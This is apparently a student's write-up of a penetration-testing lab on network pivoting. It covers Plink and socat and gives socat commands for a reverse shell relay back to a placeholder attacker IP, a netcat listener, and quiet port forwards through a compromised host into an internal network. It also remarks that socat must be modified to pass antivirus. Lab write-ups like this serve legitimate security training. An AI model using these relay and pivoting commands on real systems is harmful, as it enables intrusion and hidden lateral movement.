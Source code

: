 Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the .exe. Whilst there is a copy pre-installed on Kali at /usr/share/windows-resources/binaries/plink.exe, [downloading a new copy from here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible.

* * * 

## Pivoting - Socat

Socat can be used to create encrypted port forwards in relays. Its unlikely to pass windows antivirus by default so must be modified

![0xskar](/assets/wreath05.png)

> It's best to think of socat as a way to join two things together -- kind of like the Portal Gun in the Portal games, it creates a link between two different locations. This could be two ports on the same machine, it could be to create a relay between two different machines, it could be to create a connection between a port and a file on the listening machine, or many other similar things. It is an extremely powerful tool, which is well worth looking into in your own time.

__Reverse Shell Relay__

- `./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`
- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.
- The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.

__Port Forwarding - Easy__

-  Example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward `./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

__Port Forwarding -- Quiet__

First of all, on our own attacking machine, we issue the following command:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &`

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

